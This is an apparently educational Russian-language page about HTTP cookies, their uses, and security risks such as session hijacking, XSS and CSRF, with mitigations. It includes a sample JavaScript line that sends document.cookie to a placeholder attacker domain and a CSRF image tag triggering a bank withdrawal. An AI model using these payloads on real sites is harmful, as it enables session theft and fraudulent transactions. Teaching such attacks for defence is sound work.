 ## Куки HTTP (Cookies)

HTTP-cookie (веб-cookie) - это небольшой фрагмент данных, который можно сохранить в браузере с указанным сроком действия. Он позволяет хранить различную информацию:
  - Данные о текущем залогиненом пользователе (благодаря куки не обязательно логиниться на страничке каждый раз когда её открываешь)
  - Персонализация (например можно выбрать цветовую схему сайта и сохранить её локально)
  - Мониторинг (отслеживание поведения пользователя)

### Безопасность

> Важная информация никогда не должна сохранятся или передаваться в cookie, т.к. этот механизм сам по себе небезопасный.

- Захват сессии (session hijacking) и XSS (cross-site scripting)
  Куки часто использую в веб приложениях для идентификации пользователя и сеанса работы, в котором он прошёл аутентификацию. Соответственно, воровство куки из программы может привести к захвату авторизированного сеанса пользователя.

  Так же приложение может использовать создание элементов (например, изображения) и применять к нему некорректный адрес. В таком адресе передаётся информация cookie, которая хранится в браузере, а адрес принадлежит злоумышленнику. Браузер попытается сделать `GET` запрос, чтобы получить картинку, а на самом деле в этом запросе отправит ваши cookie злоумышленнику.

  ```js
    (New Image ()). Src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  ```

- Межсайтовая подделка запроса (CSRF - Cross-site request forgery)
  Может выглядеть так:
  
  ```html
    <img src = "http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  ```
  
  Запись выглядит как картинка, но на самом деле она делает запрос на банковский сервис. Если в данный момент в браузере находятся куки с данными об аутентифицированном пользователе в этом банковском сервисе, такой запрос может быть рассмотрен как валидный и деньги будут переведены злоумышленнику.

  Для защиты от этого используется ряд методов:
    - как и при XSS, важна фильтрация входящей информации
    - для любой важной операции должно запрашиваться подтверждение
    - cookie, используемые для ответственный операций, должны иметь маленький срок действия.
